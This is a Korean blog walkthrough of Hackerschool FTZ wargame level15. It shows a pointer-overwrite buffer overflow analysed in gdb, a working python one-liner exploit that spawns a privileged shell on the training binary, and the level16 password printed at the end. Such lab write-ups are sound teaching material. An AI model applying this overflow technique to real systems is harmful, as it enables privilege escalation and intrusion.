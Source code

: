 ```yaml
---
layout: post
title: "Hackerschool FTZ-level15"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/26
---
```

```bash
login as: level15 
level15@~~~~'s password: 
[level15@ftz level15]$ ls 
attackme  hint  public_html  tmp

[level15@ftz level15]$ cat hint 

#include  <stdio.h>

main() 
{ int crap; 
  int *check; 
  char buf[20]; 
  fgets(buf,45,stdin); 
  if (*check==0xdeadbeef) 
   { 
     setreuid(3096,3096); 
     system("/bin/sh"); 
   } 
} 

[level15@ftz level15]$
```


level15/guess what으로 접속하자.

hint를 보니, level14와 거의 같다.

다만 check가 포인터로 사용되어 deadbeef의 주소값과 비교한다.

컴파일 후 분석해보자.


```bash
[level15@ftz level15]$ cp hint /tmp/bof.c 
[level15@ftz level15]$ cd /tmp 
[level15@ftz tmp]$ gcc -o bof bof.c 
[level15@ftz tmp]$ gdb -q bof 
(gdb) set disassembly-flavor intel 
(gdb) disas main 
Dump of assembler code for function main: 
0x080483b8 <main+0>:    push   ebp 
0x080483b9 <main+1>:    mov    ebp,esp 
0x080483bb <main+3>:    sub    esp,0x38 
0x080483be <main+6>:    and    esp,0xfffffff0 
0x080483c1 <main+9>:    mov    eax,0x0 
0x080483c6 <main+14>:   sub    esp,eax 
0x080483c8 <main+16>:   sub    esp,0x4 
0x080483cb <main+19>:   push   ds:0x80495d4 
0x080483d1 <main+25>:   push   0x2d 
0x080483d3 <main+27>:   lea    eax,[ebp-56] 
0x080483d6 <main+30>:   push   eax 
0x080483d7 <main+31>:   call   0x80482d8  <fgets>
0x080483dc <main+36>:   add    esp,0x10 
0x080483df <main+39>:   mov    eax,DWORD PTR [ebp-16] 
0x080483e2 <main+42>:   cmp    DWORD PTR [eax],0xdeadbeef 
0x080483e8 <main+48>:   jne    0x804840f <main+87> 
0x080483ea <main+50>:   sub    esp,0x8 
0x080483ed <main+53>:   push   0xc18 
0x080483f2 <main+58>:   push   0xc18 
0x080483f7 <main+63>:   call   0x80482f8  <setreuid>
0x080483fc <main+68>:   add    esp,0x10 
0x080483ff <main+71>:   sub    esp,0xc 
0x08048402 <main+74>:   push   0x80484c0 
0x08048407 <main+79>:   call   0x80482c8  <system>
0x0804840c <main+84>:   add    esp,0x10 
0x0804840f <main+87>:   leave 
0x08048410 <main+88>:   ret 
0x08048411 <main+89>:   nop 
0x08048412 <main+90>:   nop 
0x08048413 <main+91>:   nop 
End of assembler dump. 
(gdb)
```


main+27은 fgets에 buf를 인좌로 주는 역할을 한다.

buf의 주소값:ebp-56

main+39에서 deadbeef와 비교할 것으로 check를 주는 것을 알 수 있다.

check의 주소값:ebp-16

ebp - buf = 40이므로 40개의 아무 값을 넘겨주면 되는 것을 알 수 있다.

이제 deadbeef의 주소값을 알아보자.

우선 attackme의 원본을 gdb하자.


```bash
[level15@ftz tmp]$ cd 
[level15@ftz level15]$ gdb -q attackme 
(gdb) disas main 
Dump of assembler code for function main: 
0x08048490 <main+0>:    push   %ebp 
0x08048491 <main+1>:    mov    %esp,%ebp 
0x08048493 <main+3>:    sub    $0x38,%esp 
0x08048496 <main+6>:    sub    $0x4,%esp 
0x08048499 <main+9>:    pushl  0x8049664 
0x0804849f <main+15>:   push   $0x2d 
0x080484a1 <main+17>:   lea    0xffffffc8(%ebp),%eax 
0x080484a4 <main+20>:   push   %eax 
0x080484a5 <main+21>:   call   0x8048360  
0x080484aa <main+26>:   add    $0x10,%esp 
0x080484ad <main+29>:   mov    0xfffffff0(%ebp),%eax 
0x080484b0 <main+32>:   cmpl   $0xdeadbeef,(%eax) 
0x080484b6 <main+38>:   jne    0x80484dd <main+77> 
0x080484b8 <main+40>:   sub    $0x8,%esp 
0x080484bb <main+43>:   push   $0xc18 
0x080484c0 <main+48>:   push   $0xc18 
0x080484c5 <main+53>:   call   0x8048380  
0x080484ca <main+58>:   add    $0x10,%esp 
0x080484cd <main+61>:   sub    $0xc,%esp 
0x080484d0 <main+64>:   push   $0x8048548 
0x080484d5 <main+69>:   call   0x8048340  
0x080484da <main+74>:   add    $0x10,%esp 
0x080484dd <main+77>:   leave 
0x080484de <main+78>:   ret 
0x080484df <main+79>:   nop 
End of assembler dump. 
(gdb) 
```



main+32에서 deadbeef의 주소값을 비교한다.

이 줄의 가장 왼쪽을 보아 이 활동이 일어나는 것의 주소가 0x080484b0 인 것을 알 수 있다.

그렇다면 deadbeef의 주소를 찾아보자.


```bash
(gdb) x/x 0x080484b0 
0x80484b0 <main+32>:    0xbeef3881 
(gdb) x/x 0x080484b1 
0x80484b1 <main+33>:    0xadbeef38 
(gdb) x/x 0x080484b2 
0x80484b2 <main+34>:    0xdeadbeef 
(gdb)
```


주소값을 하나하나 늘리며 확인했다.

그러다보니 0x80484b2에서 deadbeef의 문자열이 나타나는 것을 알 게 되었다.

그렇다면 이제 코드를 작성해보자.

아까 알아낸 아무 값 40개와 deadbeef의 주소를 적으면 check는 deadbeef의 주소값을 가르키게 된다.

그러므로 /bin/bash를 실행하니 클리어가 될 것이다.


```bash
[level15@ftz level15]$ (python -c 'print"\x90"*40+"\xb2\x84\x04\x08"';cat)|./attackme 
whoami

level16 
my-pass 

Level16 Password is "about to cause mass".
```


성공했다.

level16's password:"about to cause mass"